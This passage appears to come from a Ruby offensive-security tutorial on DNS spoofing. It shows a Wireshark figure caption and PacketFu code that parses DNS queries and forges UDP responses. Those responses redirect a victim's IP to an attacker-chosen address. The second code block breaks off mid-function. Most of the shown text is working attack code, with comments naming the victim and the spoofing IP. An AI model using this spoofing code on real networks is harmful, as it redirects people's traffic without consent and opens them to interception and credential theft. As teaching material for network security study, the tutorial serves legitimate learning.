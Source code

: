 | ![Wireshark](../../images/module03/dns\_spoofing\_wireshark2.png) |
| :---------------------------------------------------------------: |
|                 **Figure 2.** DNS Response Payload                |

```ruby
spoofing_ip = "69.171.234.21"
spoofing_ip.split('.').map {|octet| octet.to_i}.pack('c*')

  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst
  response.udp_dst   = packet.udp_src
  response.ip_saddr  = packet.ip_daddr
  response.ip_daddr  = "192.168.0.21"
  response.eth_daddr = "00:0C:29:38:1D:61"
```

Wrapping up

```ruby
#!/usr/bin/env ruby
# -*- coding: binary -*-

# Start the capture process
require 'packetfu'
require 'pp'
include PacketFu


def readable(raw_domain)

  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]

  while length_offset != 0
    fqdn << domain_name + "."
    length_offset = raw_domain[full_length].ord
    domain_name   = raw_domain[full_length + 1 .. full_length + length_offset]
    full_length   = raw_domain[0 .. full_length + length_offset].length
  end

  return fqdn.chomp!('.')
end

#
# Send Response
#
def spoof_response(packet, domain)

  attackerdomain_name = 'rubyfu.net'
  attackerdomain_ip   = '54.243.253.221'.split('.').map {|oct| oct.to_i}.pack('c*')  # Spoofing IP

  # Build UDP packet
  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst             # source port
  response.udp_dst   = packet.udp_src             # destination port
  response.ip_saddr  = packet.ip_daddr            # modem's IP address to be source
  response.ip_daddr  = packet.ip_saddr            # victim's IP address to be destination
```